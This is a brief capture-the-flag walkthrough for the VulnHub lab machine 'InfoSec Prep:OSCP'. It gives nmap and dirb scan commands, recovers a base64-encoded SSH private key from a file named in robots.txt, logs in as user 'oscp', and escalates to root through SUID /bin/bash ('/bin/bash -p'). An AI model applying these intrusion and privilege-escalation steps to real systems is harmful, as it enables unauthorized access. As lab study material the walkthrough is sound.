 

# InfoSec Prep:OSCP Walkthrough 


**VulnHub Link:** [InfoSec Prep:OSCP](https://www.vulnhub.com/entry/infosec-prep-oscp,508/)
**Difficulty:** Easy
**Release Date:** 11 Jul 2020


## 1.Reconnaissance

nmap -A -O -T4 -P -sV 192.168.100.143


## 2.Web Enumeration


dirb http://192.168.100.143

from http://192.168.100.143/robots.txt --> we get secret.txt

we download that file and ---> cat secret.txt | base64 -d

we obtain ssh private key and write to id_rsa

from web page , we found out user is 'oscp'


ssh oscp@192.168.100.143 -i id_rsa

## 3.Privilege Escalation

oscp shell opened and strangly /bin/bash has suid byte 

/bin/bash -p

we cat read flag.txt
